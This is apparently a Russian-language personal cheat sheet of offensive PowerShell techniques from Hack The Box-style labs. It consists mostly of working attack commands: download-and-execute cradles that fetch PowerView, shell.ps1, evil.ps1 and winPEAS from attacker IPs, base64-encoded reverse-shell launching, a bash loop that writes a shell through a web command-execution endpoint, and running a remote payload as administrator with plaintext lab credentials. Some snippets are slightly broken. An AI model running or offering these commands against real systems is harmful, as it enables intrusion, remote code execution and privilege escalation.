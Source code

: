 # POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

"powershell "IEX(New-Object Net.WebClient).downloadString(''http://10.10.14.9/shell.ps1'')""   ---Бывает и так!!!!!

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell
--Кодирование в base64

  $Shell=Get-Content -raw ./Invoke-PowerShellIcmp.ps1
  
  $bytes2 = [System.Text.Encoding]::Unicode.GetBytes($Shell)

  $Encoded2 | out-file icmp.ps1.b64

--Декодирование обратно

  $Decode =[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded2))
  
# Загрузка скрипат построчно

!/bin/bash
export IFS=$'\n'
for line in $(cat tmp.ps1.b64);
do
max="echo ${line} >> C:\Temp\max_shell.ps1"
curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$max"
done


-------------------------------------
cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

# Загрузка скрипта и выполнение

    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

    echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1') | powershell -noprofile 

    iwr -uri http://10.10.14.9/test -outfile test

    IEX(IWR('10.10.10.10/script.ps1'))

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)
# Доступ к ресурсу SMB

Get-Content //10.10.14.4/file

net use z: //10.10.10.14/shares 

# PowerShellMafia

https://github.com/PowerShellMafia/PowerSploit.git

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

PowerUP

Invoke-AllChecks

# Запуск процесса от имени другого пользователя (администратора)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
